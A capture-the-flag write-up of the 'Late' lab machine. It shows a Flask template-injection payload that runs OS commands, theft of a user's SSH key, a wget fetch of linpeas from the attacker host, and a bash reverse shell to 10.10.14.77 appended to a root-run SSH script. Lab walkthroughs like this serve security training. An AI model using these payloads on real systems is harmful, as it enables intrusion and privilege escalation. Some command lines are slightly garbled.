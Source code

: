 # LATE
### User flag

Normal nmap and fuzzing nothing really appears

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```
I started inspecting the page and found a virtual host images.late.htb so I added it to /etc/hosts to inspects it too. The trick here is that the back-end uses flask (as the web page shows) so I created an image with text in gimp that said {{5*5}} and the text file returned 25 so now we have RCE. I searched for flask RCE commands on the web and found [this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md).

So I created various payloads with
```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('command').read() }}
```
 I found out with whoami I was the user named svc_acc. I looked around his home and got his ssh key into my machine obtaining the user flag.

### Root flag

Once in the machine I downloaded linpeas.sh from my machine with

```bash
[kali@kali ~]$ python3 -m http.server 7777
...
svc_acc@late:/tmp$ wget 10.10.14.77:7777/linepeas.sh
chmod a+x linpeas.sh > result
less -r result
```

while reading the results the $PATH appears in orange multiple times so I visited the /usr/local/sbin and saw the file ssh-alert.sh. As the code and the name of the file indicates it seems it gets executed by root every time someone logs by ssh so I concatenated a reverse shell bash shell and connected again gaining access to root.

```bash
bash -i >& /dev/tcp/10.10.14.77/7777 0>&1
```
